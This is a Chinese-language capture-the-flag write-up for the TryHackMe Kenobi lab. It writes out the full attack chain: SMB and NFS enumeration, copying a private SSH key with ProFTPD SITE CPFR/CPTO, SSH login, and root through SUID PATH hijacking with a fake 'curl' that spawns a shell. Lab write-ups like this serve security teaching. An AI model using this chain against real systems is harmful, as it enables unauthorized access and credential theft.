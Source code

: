 3. **SUID 提權風險**
   - 尋找 SUID 程式: `find / -perm -u=s -type f 2>/dev/null`
   - 特別注意會呼叫外部程式或搜尋 PATH 的 SUID 程式

4. **掃描技巧**
   - 看到 `Increasing send delay` 表示 nmap 自動調整以應對丟包
   - 若有遺漏可用 `nmap -p- -A -T4` 全掃或多次掃描

5. **服務列舉技巧**
   - SMB: nmap NSE 失敗時改用 `smbclient -L` 或 `enum4linux`
   - NFS: 使用 `showmount -e` 或 nmap nfs-* 腳本確認 exports


## AI 精闢 writeup
> 1. 使用 nmap 做初步掃描（`nmap -sC -sV -v 10.201.110.192`），發現 22、80、111、139、2049。若初次掃描遺漏可再用 `nmap -p- -A -T4` 全 port 掃描，發現 21 與 445。
> 2. 嘗試 SMB 列舉時，nmap 的 smb-enum-shares NSE 失敗（協議 negotiation 問題），改用 `smbclient -L //10.201.110.192/ -N` 成功列出 share，包括 `anonymous`。登入 `smbclient //10.201.110.192/anonymous` 後下載 `log.txt`。
> 3. 在 `log.txt` 發現 SSH 金鑰產生訊息，得知私鑰路徑為 `/home/kenobi/.ssh/id_rsa`。
> 4. 檢查 NFS(port 111),使用 `showmount` 或 nmap nfs-* 腳本確認 `export` 為 `/var`,以 `sudo mount 10.201.110.192:/var /mnt/kenobiNFS` 掛載到本機。
> 5. 利用 FTP 的 `SITE CPFR` + `SITE CPTO`（ProFTPD）把私鑰複製到 `/var/tmp` 後再從 NFS 讀取。
> 6. 將私鑰複製到攻擊機：`cp /mnt/kenobiNFS/tmp/id_rsa .`，並設定權限 `chmod 600 id_rsa`。使用 `ssh -i id_rsa kenobi@10.201.110.192` 登入取得 `user.txt`。
> 7. 列出系統 SUID 程式 `find / -perm -u=s -type f 2>/dev/null`，發現 `/usr/bin/menu`。執行 `/usr/bin/menu` 後發現選項會執行 `curl -I localhost`。將 `/tmp` 放到 PATH 前面並放置惡意 `curl` 可獲得 root：
>
>    * `echo -e '#!/bin/sh\n/bin/sh' > /tmp/curl && chmod 755 /tmp/curl`
>    * `export PATH=/tmp:$PATH`
>    * 執行 `/usr/bin/menu` 選 `1` (status check) → root shell → 讀取 `root.txt`。


**完整攻擊鏈**:
1. SMB 洩漏 → 發現 SSH 私鑰路徑
2. ProFTPD 漏洞 → 複製私鑰到 NFS 共享目錄
3. NFS 掛載 → 取得私鑰
4. SSH 登入 → 獲得 user shell
5. SUID + PATH 劫持 → 提權到 root


## 補充

### NFS 掛載點管理
#### 正常卸載流程
記得結束掛載 umount 後在結束機器

```!=
# 1. 確認掛載狀態
┌──(kali㉿kali)-[~/tryhackme]
└─$ mount | grep kenobiNFS
10.201.110.192:/var on /mnt/kenobiNFS type nfs4 (rw,relatime,vers=4.2,rsize=262144,wsize=262144,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=10.4.11.38,local_lock=none,addr=10.201.110.192)

# 2. 正常卸載                   
┌──(kali㉿kali)-[~/tryhackme]
└─$ sudo umount /mnt/kenobiNFS

# 3. 確認卸載成功
┌──(kali㉿kali)-[~/tryhackme]
└─$ mount | grep kenobiNFS  # 應該沒有輸出
```
